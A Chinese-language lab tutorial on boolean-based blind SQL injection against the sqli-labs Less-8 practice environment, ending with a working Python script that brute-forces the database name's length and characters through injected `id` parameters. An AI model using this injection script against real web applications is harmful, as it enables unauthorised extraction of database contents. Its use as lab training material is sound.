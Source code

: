 # sqli-labs_less_8_布尔盲注获取数据库名

- 该代码主要实现用布尔盲注来得到数据库名
- 适用场景：sqli-labs/less-8

### 环境布置

- 实现该功能需要用`requests`模块、`string`模块，和注入点的url，并创建一个请求

![image-20240311190239825](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240311190239825.png)



### 确定数据库的长度

- 因为数据库的长度可能是1位也有可能是五十位，所以我们需要建立一个循环，让他测试一下到底有多少位，可以根据请求所返回的正文来判断是否正确（该场景下，如果条件内容是正确的会返回`You are in ...`,错误则没有。利用该情况可以实现布尔盲注）

  ![image-20240311191649053](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240311191649053.png)


### 确定数据库名

- 经过上一步骤，已经得到该数据库名长度为八位，那么分析一下，数据库名可以由大写字母`A~Z`、小写字母`a~z`、数字`0~9`还有一些特殊符号，但是必须由字母开头。这些都是可打印字符，python中有一个`string`模块可以得到所有的可打印字符，那么只需要把这些字符跟数据库名的字符依次比较，即可得到数据库的名字

  ![image-20240311200505616](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240311200505616.png)



### 源码

```python
import requests
import string
url="http://192.168.200.148/sqli-labs-master/Less-8/"

req=requests.session()
# 确定数据库名的长度
for i in range(1,51):
    params={
        'id': f" 1' and length(database())={i} -- "
    }
    res=req.get(url=url,params=params)
    if "You are in......" in res.text:
        dbname_len=i
        break
print(f"[+] The length of dbname is {i}")

# 确定数据库名
c_set=string.printable.strip()
db_name=""
for i in range(1,dbname_len+1):
   for  j in c_set :
        params={
        'id': f" 1' and substr(database(),{i},1)='{j}' -- "
        }
        res=req.get(url=url,params=params)
        if "You are in......" in res.text:
            db_name+=j
            break
print(f"[+] name of The Database is {db_name}")


```

